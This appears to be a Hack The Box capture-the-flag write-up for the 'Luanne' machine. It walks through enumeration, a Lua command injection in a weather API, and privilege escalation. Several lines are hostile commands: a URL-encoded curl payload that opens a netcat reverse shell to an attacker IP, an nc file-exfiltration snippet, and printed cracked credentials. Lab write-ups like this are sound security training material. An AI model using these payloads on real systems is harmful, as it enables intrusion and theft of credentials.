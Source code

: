 ```yaml
---
title: "Luanne HTB Writeup"
date: 2021-03-27T09:20:04+02:00
draft: false
Tags: [
    "Writeups",
    "hackthebox",
]
---
```

![Machine Info](/images/luanne/1.png)

Luanne is an easy machine retired today ..
let's check it out.. enjoy...
## Methodology:
* Recon / Scanning Target
* Searching for Vulnerabilities - also understanding the target
* Gaining Access / Foothold 
* Maintaining Access
* Privilege escalation
* Reporting - (don't forget taking notes after each step)
---
# []()Enumeration:
  using nmap scan to see the open ports and the running services
* **nmap -sC -sV -oN 10.10.10.218**

```bash
Nmap scan report for **luanne.htb** (10.10.10.218)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.0 (NetBSD 20190418-hpn13v14-lpk; protocol 2.0)
| ssh-hostkey: 
|   3072 20:97:7f:6c:4a:6e:5d:20:cf:fd:a3:aa:a9:0d:37:db (RSA)
|   521 35:c3:29:e1:87:70:6d:73:74:b2:a9:a2:04:a9:66:69 (ECDSA)
|_  256 b3:bd:31:6d:cc:22:6b:18:ed:27:66:b4:a7:2a:e4:a5 (ED25519)
80/tcp   open  http    nginx 1.19.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=.
| http-robots.txt: 1 disallowed entry 
|_/weather
|_http-server-header: nginx/1.19.0
|_http-title: 401 Unauthorized
9001/tcp open  http    Medusa httpd 1.12 (Supervisor process manager)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=default
|_http-server-header: Medusa/1.12
|_http-title: Error response
Service Info: OS: NetBSD; CPE: cpe:/o:netbsd:netbsd
```
There's a web server running on port 80:
![](/images/luanne/3.png)
* tried some default passwords, but didn't authorized access.
![](/images/luanne/4.png)
* also the nginx default page.
![](/images/luanne/5.png)

* **port 9001:**
![](/images/luanne/6.png)

* we noticed earlier a hostname (luanne.htb) .. we need to add it to our /etc/hosts file so we could access it.
![10.10.10.218	luanne.htb](/images/luanne/7.png)

* untill now nothing intersting showed up .. let's enumerate hidden directories:
* using Dirsearch:
```yml
python3 /home/sehs/dirsearch/dirsearch.py -u http://luanne.htb/ -e txt,html,php,log,zip,bac,bak,tar
```
![](/images/luanne/8.png)

found robots.txt file > this file tells the crawlers not to consider the paths inside it.. 
![found this /weather](/images/luanne/9.png)

so now let's see what's over there..
![](/images/luanne/10.png)

i also ran dirsearch again on the luanne.htb/weather >> but got nothing.
then i tried to search with the CVEs about nginx with version 1.9.0 and openssh but nothing usefull. so i turned back to enumeration.

This time using a begger wordlist and gobuster.
### Gobuster:
* gobuster dir -u http://luanne.htb/weather -w /usr/share/dirb/wordlists/big.txt
![](/images/luanne/11.png)
![found this /forecast path](/images/luanne/12.png)
we could have used dirsearch too, but gobuster is faster in this case with big wordlists.

### Time for Web Enumeration:
* going to /weather/forecast:
![](/images/luanne/13.png)
* it says go to city=list >> so let's see /weather/forecast?city=list
![](/images/luanne/14.png)
![nothing really usefull. ](/images/luanne/15.png)

when tried single quote`` ' `` in the query, we got a lua error .. so now we knew that the backend language is lua.
![Lua error: /usr/local/webapi/weather.lua:49: attempt to call a nil value](/images/luanne/16.png)
* now we have to fix the query so we could try command injection
* after some tries this >> ``')--`` makes the query right (-- to comment in lua)
* so now if we made a command within it ``')os.execute('command')--`` > it works
---
## Gaining Access:
* of course it's time to put regular reverse shell payload ``os.execute('nc 10.10.x.x PORT -e /bin/bash')`` and open our netcat .. but it didn't work..
it's time for searching around:
* if you noticed earlier from nmap (the os is NetBSD) so maybe we should try netbsd reverse shell [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-openbsd)
![netbsd payload](/images/luanne/18.png)
![](/images/luanne/17.png)
* now we need to combine both of those to make our payload
```java
');'os.execute("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.15 9001 >/tmp/f")'
```
and let's encode the payload
![](/images/luanne/19.png)
* note: [i got errors and the problem was in the () > their encoding %28 %29 ]
now let's do it again and the whole thing will be:
```
curl luanne.htb/weather/forecast?city=Leeds%27%29%3Bos.execute%28%22rm%2520%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.16.15%209001%20%3E%2Ftmp%2Ff%22%29--
```
![](/images/luanne/20.png)
![horay! we got our shell](/images/luanne/21.png)

* let's list what in there >> and we found some credential / hash
![](/images/luanne/22.png)

### Cracking the hash using john:
* put the hash inside file and run john on it using rockyou.txt wordlist
![](/images/luanne/23.png)
The creds >> **``webapi_user:iamthebest``** .. or type ``$john --show hash``
* now lets login with these creds:
![](/images/luanne/24.png)
![](/images/luanne/25.png)
nothing useful in there...
let's keep digging:
``netstat -ant`` to check network connections
![](/images/luanne/26.png)
``nc 127.0.0.1 3001`` to listen on the server
![](/images/luanne/27.png)
lets try curl: 
![also unauthorized](/images/luanne/28.png)
so lets try using our creds >>
``curl --user :iamthebest  http://127.0.0.1:3001``
![](/images/luanne/29.png)
* it worked fine .. now thinking of using this
![we 've got one user on the system called r.michaels](/images/luanne/30.png)
![trying to get ssh keys from .ssh/id_rsa](/images/luanne/31.png)
![trying to get user.txt](/images/luanne/32.png)
![and finally getting ssh keys from michaels home](/images/luanne/33.png)
* copy and save them to a file and ``chmod 400 id_rsa``
* ``ssh -i id_rsa r.michaels@luanne.htb``
![](/images/luanne/34.png)
---
## Privilege Escalation / Rooting:
![](/images/luanne/35.png)
from the first sight >> this backed up file ``devel_backup-2020-09-16.tar.gz.enc`` is catchy
* i took some time to crack its encoding .. then i thought of roaming around maybe it's not the solution .. i used LinPEAS.sh to search around
.. then i came back to it .. so i'll short it down for u and be straight forward in this ...
* you can transfer the file on your machine to work on it like this:
```ruby
On your server (A):
nc -l -p 1234 -q 1 > something.zip < /dev/null

On your "sender client" (B):
cat something.zip | nc server.ip.here 1234
```
* found these files and their extention so i thought they are related and searched on 'em:
![](/images/luanne/36.png)
![](/images/luanne/37.png)
![](/images/luanne/38.png)
* as u can see it seems that our backup file was encrypted using this 'netpgp' tool .. earlier i tried decompressing using openssl but it needed password.
* ``which netpgp`` >> gives its location '/usr/bin/netpgp' >> so we could use it to crack our file.
![](/images/luanne/39.png)
* Decryption:
```yml
/usr/bin/netpgp --decrypt filename --output=/path

/usr/bin/netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc --output=/tmp/backup.tar.gz
```
![](/images/luanne/40.png)
* the file is being deleted so fast >> u 've to send it to your machine:
![](/images/luanne/41.png)
![](/images/luanne/42.png)
* To uncompress it >> ``tar xvzf backup.tar.gz`` 
* found a hash inside .htpasswd
![](/images/luanne/43.png)
* put the hash inside file to crack it with john
![](/images/luanne/44.png)
* cracking with john as before:
![](/images/luanne/45.png)
### creds: webapi_user:littlebear
* let's try switching into root and use the pass we got:
* when trying ``su root`` we got some error:
![](/images/luanne/46.png)
* after searching >> there is no su command in NetBsd systems, insteed its ``doas``
* you can check their [manual](https://man.netbsd.org/netpgb.1)
![](/images/luanne/47.png)
![](/images/luanne/48.png)
**rooted#**
* i hope you enjoyed..
* if so kindly give me respect [Wh1rlw1nd-HTB](https://www.hackthebox.eu/home/users/profile/182588)
* feel free to contact me for feedbacks or any help...



